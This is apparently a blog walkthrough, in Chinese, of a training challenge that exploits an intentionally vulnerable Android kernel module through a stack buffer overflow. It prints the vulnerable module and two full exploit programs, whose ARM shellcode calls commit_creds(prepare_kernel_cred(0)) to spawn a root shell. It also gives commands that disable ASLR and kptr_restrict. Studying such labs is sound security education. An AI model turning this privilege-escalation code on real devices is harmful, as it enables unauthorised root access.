






# 导语
AndroidKernelExploitationPlayground之kernel_exploit_challenges / challenge / stack_buffer_overflow / module / stack_buffer_overflow.c
<!-- more -->
代码如下

``` c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/proc_fs.h>
#include <linux/string.h>
#include <asm/uaccess.h>
#define MAX_LENGTH 64
MODULE_LICENSE("GPL");
MODULE_AUTHOR("Ryan Welton");
MODULE_DESCRIPTION("Stack Buffer Overflow Example");
static struct proc_dir_entry *stack_buffer_proc_entry;
int proc_entry_write(struct file *file, const char __user *ubuf, unsigned long count, void *data)
{
    char buf[MAX_LENGTH];
    if (copy_from_user(&buf, ubuf, count)) {
        printk(KERN_INFO "stackBufferProcEntry: error copying data from userspacen");
        return -EFAULT;
    }
    return count;
}
static int __init stack_buffer_proc_init(void)
{
    stack_buffer_proc_entry = create_proc_entry("stack_buffer_overflow", 0666, NULL);
    stack_buffer_proc_entry->write_pr = proc_entry_write;
    printk(KERN_INFO "created /proc/stack_buffer_overflown");
    return 0;
}
static void __exit stack_buffer_proc_exit(void)
{
    if (stack_buffer_proc_entry) {
        remove_proc_entry("stack_buffer_overflow", stack_buffer_proc_entry);
    }
    printk(KERN_INFO "vuln_stack_proc_entry removedn");
}
module_init(stack_buffer_proc_init);
module_exit(stack_buffer_proc_exit);
```

# 使用adb shell连接到自己的模拟器
如果没有装adb就使用apt安装一个
在之前配置环境时，我们用下面的命令创建了一个模拟器

``` bash
android create avd --force -t "android-19" -n kernel_challenges
```

安卓SDK常用命令可以参考这个链接
https://blog.csdn.net/w00347190/article/details/102054184

然后我们使用`adb devices`查看一下模拟器的名称

接下来就adb -s [名称] shell
即可连接到模拟器shell


# 测试是否存在溢出
从代码可以看出，调用create_proc_entry函数创建了一个/proc/stack_buffer_overflow的设备文件，当向该设备文件调用 write 系统调用时会调用 proc_entry_write 函数进行处理。proc_entry_write调用copy_from_user函数，但是调用的参数全是由proc_entry_write传入的，因此我们可以输入超过64字节来进行缓冲区溢出。
于是我们进行测试，向/proc/stack_buffer_overflow写72个A看看是否能将返回值覆盖掉，如果成功，pc应该是A的ascii重复。（这里需要一点arm的汇编基础，没有的话希望尽早补全知识结构）

可以看到成功的溢出了，PC被覆盖，并且adbshell也卡死了。

# 溢出准备
首先关闭ASLR

```
echo 0 > proc/sys/kernel/randomize_va_space
```

然后关闭kptr_restrict

```
echo 0 > /proc/sys/kernel/kptr_restrict
```

否则将无法获取内核符号地址。
实际上，在更后期的安卓内核版本里，是根本无法获取内核符号的，这使得漏洞利用变得更难了。

然后我们就可以找commit_creds 和 prepare_kernel_cred的地址了，通过调用这两个程序来进行提权。
命令是

```
cat /proc/kallsyms | grep prepare_kernel_cred  
cat /proc/kallsyms | grep commit_creds 
```

具体的思路就是
1. 调用 commit_creds（prepare_kernel_cred（0）） 提升权限
2. 调用 mov r3, ＃0x40000010; MSR CPSR_c, R3;设置 cpsr 寄存器， 使cpu进入用户模式
3. 然后执行 execl("/system/bin/sh","sh"，NULL);起一个 root 权限的 shell

我们就可以抄playground里给我们的solution了

# 利用代码

``` c
#include <stdio.h>
#include <string.h>

#include <unistd.h>
#include <fcntl.h>

#include <sys/mman.h>

#define MAX             64

void * prepare_kernel_cred;
void * commit_creds;
void * proc_file_write;


void *
get_ksymbol(char *name)
{
        FILE *f = fopen("/proc/kallsyms", "r");
        char c, sym[512];
        void *addr;
        int ret;

        while (fscanf(f, "%p %c %s\n", &addr, &c, sym) > 0) {
                if (!strcmp(sym, name))
                        return addr;
        }

        return NULL;
}

int
open_file(void)
{
        int fd = open("/proc/stack_buffer_overflow", O_RDWR);
        if (fd == -1)
                err(1, "open");
        return fd;
}

void
payload(void)
{
        if (getuid() == 0) {
                printf("[+] enjoy the shell\n");
                execl("/system/bin/sh", "sh", NULL);
        } else {
                warnx("failed to get root. How did we even get here?");
        }

        _exit(0);
}


extern uint32_t shellCode[];

asm
(
"    .text\n"
"    .align 2\n"
"    .code 32\n"
"    .globl shellCode\n\t"
"shellCode:\n\t"


// commit_creds(prepare_kernel_cred(0));
// -> get root
"LDR     R3, =0xc003c814\n\t"
"MOV     R0, #0\n\t"
"BLX     R3\n\t"
"LDR     R3, =0xc003c310\n\t"
"BLX     R3\n\t"

//Fix the trashed stack by restoring r4/r5 from duped values on the stack
"ldr r0, =0xc0104610\t\n"
"ldr r4, [sp] \t\n"
"ldr r5, [sp, #4]\t\n"
"bx r0\t\n"
);


void
trigger_vuln(int fd, int canary)
{

#define MAX_PAYLOAD (MAX + 4  * sizeof(void*) )

        char buf[MAX_PAYLOAD];

        memset(buf, 'A', sizeof(buf));

        void * pc = buf + MAX +  3 * sizeof(void*);

        *(void **)pc  = (void *) shellCode;

        /* Kaboom! */
        write(fd, buf, sizeof(buf) );
}

int
gather_information(int fd)
{
        int canary, i;

        if (lseek(fd, 32, SEEK_SET) == -1)
                err(2, "lseek");
        read(fd, &canary, sizeof(canary));

        printf("[+] found canary: %08x\n", canary);

        return canary;
}

void
resolve_kernel_symbols(void)
{
        prepare_kernel_cred     = get_ksymbol("prepare_kernel_cred");
        commit_creds            = get_ksymbol("commit_creds");
        proc_file_write         = get_ksymbol("proc_file_write");

        if (!prepare_kernel_cred || !commit_creds)
                errx(1, "couldn't map all kernel symbols");
}

int
main(void)
{
        int fd, canary;

        resolve_kernel_symbols();

        fd = open_file();
        canary = gather_information(fd);

        trigger_vuln(fd, canary);

        payload();
        /* If we're here, we've failed. */
        close(fd);

        errx("[-] exploit failed\n");
}
```

这里面有找内核符号的函数，获取proc的函数，构造shellcode的函数等等。
不过实际上经过我们的分析和操作，实际上只需要这些代码的一部分就够了，比如找符号的那一部分就可以不要了。而且这个solution其实本身就有坑，max_payload和pc跳转的位置都8一样，直接跑的话就反手给你来一个pc=AAAAAAA，当场自闭。这里我们可以抄另一个大佬改的。

``` c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <stdint.h>
#define MAX             64
int open_file(void)
{
        int fd = open("/proc/stack_buffer_overflow", O_RDWR);
        if (fd == -1)
                err(1, "open");
        return fd;
}
void payload(void)
{
                printf("[+] enjoy the shell\n");
                execl("/system/bin/sh", "sh", NULL);
}
extern uint32_t shellCode[];
asm
(
"    .text\n"
"    .align 2\n"
"    .code 32\n"
"    .globl shellCode\n\t"
"shellCode:\n\t"
// commit_creds(prepare_kernel_cred(0));
// -> get root
"LDR     R3, =0xc0039d34\n\t"   //prepare_kernel_cred addr
"MOV     R0, #0\n\t"
"BLX     R3\n\t"
"LDR     R3, =0xc0039834\n\t"   //commit_creds addr
"BLX     R3\n\t"

"mov r3, #0x40000010\n\t"
"MSR    CPSR_c,R3\n\t"
"LDR     R3, =0x84c8\n\t"     // payload function addr
"BLX     R3\n\t"
);
void trigger_vuln(int fd)
{
        #define MAX_PAYLOAD (MAX + 2  * sizeof(void*) )
        char buf[MAX_PAYLOAD];
        memset(buf, 'A', sizeof(buf));
        void * pc = buf + MAX +  1 * sizeof(void*);
        printf("shellcdoe addr: %p\n", shellCode);
        printf("payload:%p\n", payload);
        *(void **)pc  = (void *) shellCode;   //ret addr
        /* Kaboom! */
        write(fd, buf, sizeof(buf) );
}
int main(void)
{
        int fd;
        fd = open_file();
        trigger_vuln(fd);
        payload();
        close(fd);
}
```

在arm架构下，函数栈如下

可以看到，除了main函数外，栈里是没有参数，而只有本地变量，其实这也不对，实际上，当要传的参数小于4时，参数会被保存在r0，r1，r2，而当大于4时，大于4的部分则需要使用堆栈。、
但是我们这里的buf是本地变量，实际上也是上图中para1的位置，也因此我们只需加上两个指令长度即可找到覆盖sp的位置。

# 编译利用代码

在这里你可能遇到找不到各种各样的头文件的错误，大致的解决方案有二。

## 使用NDK的ndk-build
首先我们去下载一个NDK，地址是
https://developer.android.google.cn/ndk/downloads
选择下载linux版本，直接unzip出来，然后配置环境变量

```
NDKROOT="/your/path/android-ndk-r21d/"
export PATH="$NDKROOT:$PATH"
```

如果你选择的是ndkr21d的话，你就需要了解一下NDK的使用方式，使用ndk-build来生成编译的文件，而不能使用--sysroot
然后我们去solution那儿试着ndk-build一下
会出现报错，这里我们需要修改一下Application.mk，修改后的内容如下

```
LOCAL_PATH := $(call my-dir)

include $(CLEAR_VARS)

//修改了这一行
APP_ABI := armeabi-v7a

LOCAL_EXPORT_C_INCLUDE_DIRS := $(LOCAL_PATH)/include
LOCAL_C_INCLUDES := $(LOCAL_PATH)/include-all

//加上了这两行
APP_PLATFORM := android-19
APP_ALLOW_MISSING_DEPS=true

include $(BUILD_EXECUTABLE)
```

在jni上一层目录执行ndk-build，就可以在solution/obj/local/armeabi-v7a下找到对应的可执行文件，把它使用adb整到模拟器里再运行即可
```
adb push filetopush path/in/emulator/filename
```

如果他提示你文件系统只读，那么只需要在adbshell里执行

```
mount -o remount rw /
```

即可

## 利用ndk的头文件和库文件
这里得要一个更早一点的ndk，比如ndkr13b，反正最新的ndk的是用不了的。
使用下面的命令

```bash
arm-linux-androideabi-gcc --sysroot=/your/path/android-ndk-r13b/platforms/android-19/arch-arm /home/bbs/android/try/exp.c -o exp
```

同样，用adb整到模拟器里运行即可。

# 远程调试
首先在linux上
```
adb forward tcp:12345 tcp:12345
```

然后到adb shell里在程序对应的位置 

```
gdbserver :12345 ./exp
```

然后再在物理机上，到goldfish目录下

```
arm-linux-androideabi-gdb vmlinux
```

在打开的gdb里使用

```
target remote:12345
```

就可以调试安卓模拟器里的程序了。
理论上这里可以很快乐的调试，但是由于不知名原因，即便我填上了sysroot，GDB依旧无法加载动态库的符号表，所以出来的都是乱七八糟的，不过问题不大。可以通过看寄存器内容来修改shellcode的地址。

# 修改代码
我们直接使用大佬改好的代码，运行之后发现会出错，（当你发现你的grep prepare_kernel_cred和grep commit_creds地址和教程一样时，并不意味着人家的代码可以直接套，我又一次领悟了这道理），在gdb里看是访问了一个0x0的地址。仔细一看就是payload地址指歪了。。。

修改一下就可以了。

# 结果
先用su把我们的用户权限变低，然后直接干他。
（别忘了要把这个东西所在目录的权限变成777，以及这个东西本身变成777）

执行完毕之后发现我们又回到了root到此就任务完成辣！

参考链接
https://www.anquanke.com/post/id/86617
https://www.jianshu.com/p/a81e1dc52a1c